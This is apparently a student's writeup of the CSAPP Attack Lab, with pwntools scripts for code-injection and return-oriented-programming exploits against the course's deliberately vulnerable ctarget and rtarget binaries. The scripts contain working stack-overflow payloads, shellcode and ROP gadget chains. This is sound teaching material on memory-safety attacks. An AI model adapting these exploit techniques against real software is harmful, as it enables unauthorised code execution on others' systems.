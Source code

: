 ```yaml
---
title: CSAPP attacklab
date: 2022-06-16 23:45:00
category: Project Writeup
tags:
  - CSAPP Labs
---
```


This is the writeup for CSAPP Attacklab

Tool: IDA/Ghidra, pwndbg, pwntools

## Part I: Code Injection Attacks

## Level 1

Simple stack overflow, without the protection of canary and ASLR. Debugger check the stack frame, find out that total 40 bytes offset away from the return address. So make a 40 bytes padding then follow the address of touch1. Done

## Level 2

It checks the argument of touch2 to be the cookie that within the `cookie.txt` file. The stack is executable, so inject a shellcode into the stack then return to the stack to execute the shellcode to make `rdi` to be the correct cookie. 

## Level 3

Level 3 require a pointer to check, however, some part of the stack will be wiped out by the function `hexmatch` and `touch3`, so store the string in somewhere away from the place they wipe out will be fine. 

Solution for Part I:

```python
#!/usr/bin/python3

from pwn import *

context.arch = "amd64"
context.encoding = "latin"
context.log_level = "INFO"
warnings.simplefilter("ignore")

cookie = p32(0x59b997fa)
touch1 = p32(0x4017c0)
touch2 = p32(0x4017ec)
touch3 = p32(0x4018fa)

# p = gdb.debug(["./ctarget", "-q"])
p = process(["./ctarget", "-q"])

# exp for touch1
# p.sendline(b"A"*40 + touch1);

# exp for touch2
# shellcode = """
#     mov rdi, 0x59b997fa
#     push 0x4017ec
#     ret
# """
# print(len(asm(shellcode)))
# p.sendline(asm(shellcode) + b"A"*27 + p32(0x5561dc78));

# exp for touch3
shellcode = """
    mov rdi, 0x5561dca8
    push 0x4018fa
    ret
"""
print(len(asm(shellcode)))
p.sendline(asm(shellcode) + b"A"*27 + p64(0x5561dc78) + b"59b997fa");

print(p.readall().decode())
```

## Part II: Return-Oriented Programming

### Level 4

Same with Level 2, but with random memory address. So we are unable to access the code that we inject to the stack. The core part on `touch2` is to make `rdi = cookie`. With the help of ROPgadgets, we can find from the `farm.c` that there are two place to reach our goal:  

```assembly
getval_280:
0x4019cc
58 	 	 pop rax
90 	 	 nop
c3 	 	 ret

setval_426:
at 0x4019c5
48 89 c7 mov rdi, rax
90 		 nop
c3 		 ret
```

### Level 5

Same thing. Try to make `[rdi] = cookie`. You may find a gadget in `setval_350` that store `rsp` to `rax`. But the hard thing is that if we place where `rsp` is pointing to be the cookie value, we are unable to further jump to other places because the cookie take the place that original used for another return address. 

So, in order to bypass this issue, we can add an offset to `rsp` by `add_xy` function. So that it will point away from current position and we can store cookie string to other places. 

Solution for Part II:

```python
#!/usr/bin/python3

from pwn import *

context.arch = "amd64"
context.encoding = "latin"
context.log_level = "INFO"
warnings.simplefilter("ignore")

cookie = p32(0x59b997fa)
touch2 = p32(0x4017ec)
touch3 = p32(0x4018fa)

p = gdb.debug(["./rtarget", "-q"])
# p = process(["./rtarget", "-q"])

# exp for touch2
# p.sendline(b"A"*40 + p64(0x4019cc) + p64(0x59b997fa) + p64(0x4019c5) + p64(0x4017ec));

# exp for touch3
p.sendline(b"A"*40 + p64(0x4019cc) + p64(0x20) + p64(0x401a42) + p64(0x401a69) + p64(0x401a27) + p64(0x401a06) + p64(0x4019c5)
        + p64(0x4019d6) + p64(0x4019c5) + p64(0x4018fa) + b"59b997fa");

print(p.readall().decode())
```







